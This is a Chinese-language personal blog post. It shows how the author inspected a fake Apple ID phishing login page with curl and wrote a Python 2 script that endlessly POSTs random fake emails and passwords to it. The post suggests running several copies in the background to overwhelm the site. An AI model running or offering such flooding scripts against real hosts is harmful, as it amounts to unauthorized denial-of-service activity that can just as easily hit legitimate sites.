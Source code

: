 ```yaml
---
layout:     post
title:      "POST提交表单塞爆钓鱼网站"
subtitle:   "只适用于弱智的钓鱼网站"
date:       2016-09-21
author:     "Wcq"
header-img: "img/in-post/post-python-post.jpg"
tags:
    - 
    - 
---
```



> 据说每一个猿的指尖都隐藏着改变世界的力量  LOL


### 环境
* Python 2.7.10
* curl 7.43.0 (x86_64-apple-darwin15.0) libcurl/7.43.0 SecureTransport zlib/1.2.5
Protocols: dict file ftp ftps gopher http https imap imaps ldap ldaps pop3 pop3s rtsp smb smbs smtp smtps telnet tftp
Features: AsynchDNS IPv6 Largefile GSS-API Kerberos SPNEGO NTLM NTLM_WB SSL libz UnixSockets

### 背景
现在的诈骗信息是越来越多了 信息安全意识稍差的人极有可能中招  
今天群里一哥们公司的老总就被[http://www.lcoud.cn.com/](http://www.lcoud.cn.com/)这个钓鱼网站钓了。。。  
为此群里大牛们决定写脚本去塞爆这个钓鱼网站(其实是无聊 找点乐子 hhhhh)
受巨神们聊天的启发 整理了一下稍加改进就有了这篇随笔

### 思路
利用 curl 获得钓鱼网站登陆界面的代码 找出关键部分(文本输入框及提交按钮)  
写一个python脚本  在 while 1 里利用 post 方式提交伪造的用户名和密码  


### 实现
1、利用 curl 获得钓鱼网站登陆界面的代码并存到 source.txt 文件中  

```scss
wcq-062821@wcqdeMacBook-Pro:~/IOSCrack/tmp
> curl http://www.lcoud.cn.com/ > source.txt
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  9623  100  9623    0     0   7336      0  0:00:01  0:00:01 --:--:--  7334
```
查看 source.txt 搜索 action得到关键代码如下：  

```scss
    <div class="main">

        <form name="form" action="/Login" method="post" target="_top">
            <div class="top"><em><img src="./index_files/yun.png" height="25"></em><span><a href="index.htm#" class="shuom"></a><a href="http://www.apple.com/cn/icloud/setup/" target="blank"><img src="./index_files/wenh.png"></a></span></div>
            <div class="login_main">
                <div class="login">
                    <div class="del">

                        <ul>
                            <li><input type="text" id="accountname" name="username" value="" errormsg="Apple ID" placeholder="Apple ID" class="l_text" autocomplete="off" style="margin-left:10px; background:none; font-family:Arial, Helvetica, sans-serif"></li>

                            <li>
                                <input type="password" id="accountpassword" name="password" value="" errormsg="Apple 密码" placeholder="Apple 密码" class="l_text" autocomplete="off" style="margin-left:10px; background:none">






                                <input class="btn" src="./index_files/btn.png" type="image" style="margin-right:10px; margin-top:6px" onClick="this.form.action='login.do';this.form.submit()">

```
对应的界面如下：  

![img](/img/in-post/post-python-post1.jpg)

由此可知 这个页面的数据是要提交到 http://www.lcoud.cn.com/Login 这个页面处理  
Apple ID 输入文本框的名字是 username ， Apple 密码 输入文本框的名字是password  
提交按钮即那个向右的箭头执行的动作是 login.do 好了 有了这些信息 我们就可以写脚本来自动提交这些东西了  

2、写 Python 脚本
新建一个 post.py 脚本文件 填入下面内容

```scss
import urllib2
import urllib
import random
import string
def upper_generator(size=random.randint(1,2), chars=string.ascii_uppercase): return ''.join(random.choice(chars) for _ in range(size))
def lower_generator(size=random.randint(1,2), chars=string.ascii_lowercase): return ''.join(random.choice(chars) for _ in range(size))
def digits_generator(size=random.randint(7,10), chars=string.digits): return ''.join(random.choice(chars) for _ in range(size))
def maildigits_generator(size=random.randint(3,5), chars=string.digits): return ''.join(random.choice(chars) for _ in range(size))

while 1:
    #dat = random.randint(100000000,9999999999)
    #int to string
    #tem = '%d' %dat    
    dat = upper_generator()
    dat1 = lower_generator()
    dat2 = maildigits_generator()
    tem = [dat,dat1,dat2]
    tem = ''.join(tem)
    mail_list = ['@163.com','@126.com','@qq.com','@hotmail.com','@gmail.com','@yahoo.com','@msn.com','@sina.com','@sohu.com','@hongkong.com','@wcq.com']
    usern = [tem,mail_list[random.randint(0,10)]]
    mail = "".join(usern)
    print mail

    upper = upper_generator()
    lower = lower_generator()
    digits = digits_generator()
    passwd = [upper,lower,digits]
    passwd = ''.join(passwd)
    print passwd
    
    data = {'username' : mail, 'password' : passwd}
    f = urllib2.urlopen(
                    url     = 'http://www.lcoud.cn.com/login.do',
                            data    = urllib.urlencode(data)
                                    )
    #print(f.read())
```
这个脚本伪造了各种邮箱做为 Apple ID 和 首字母大写后接小写字母最后接数字作为密码填入文本框  
然后打开http://www.lcoud.cn.com/login.do 这个 url 就是相当于按下提交按键(右箭头)  
由于这里写成了死循环 只要执行这个程序不关闭 它就会一直伪造提交  

3、实验  

```scss
wcq-062821@bogon:~/IOSCrack/tmp
> python post.py
Ukb80474@gmail.com
Ulc4720709
Qoe42012@hongkong.com
Xlr3656909
Fri15942@qq.com
Xmw0606662
Mxq00155@hotmail.com
Qvw2920952
Zmw76757@sohu.com
Oql2026629
Pjg16223@sina.com
Rkk9558398
Vje95418@hotmail.com
Amr6831312
Jqx26086@hongkong.com
Typ0289151
Jev95873@msn.com
Skv8212235
Nvu71617@sina.com
Vuh3587969
Wxl07924@126.com
Rzn8374092
```
去掉#print(f.read())这一行的#还可以看到提交后的页面的代码详情  
注意这里print(f.read())的缩进一定要比while大一个TAB 否则就不在死循环里得不到执行  



### 总结
这是一个十分弱智的钓鱼网站 页面仿得十分粗糙 域名也一点都不像在浏览器上连 http://都没有  
而且即使什么都不填 直接点右箭头 一样可以进入下一个界面。。。。。  
而且连保持我的登陆状态前面的框都勾不上。。。 好弱智啊！！！  
当然我们这种python post 的方式也比较弱智 效率不高 据说可以用 curl 或 lua 来实现类似功能  
有兴趣的可以试一下  
为了提升效率 我们还可以这样 运行的时候用 python post.py& 来后台运行  
多开几个就快了 比如我开了 4 个。。。  

![img](/img/in-post/post-python-post3.jpg)

下次还看到弱智钓鱼网站 无聊的话就可以用这种方法在电脑后台挂着 我相信我也坚信 挂着挂着 钓鱼网站就会变成这样  

![img](/img/in-post/post-python-post2.jpg)

2333



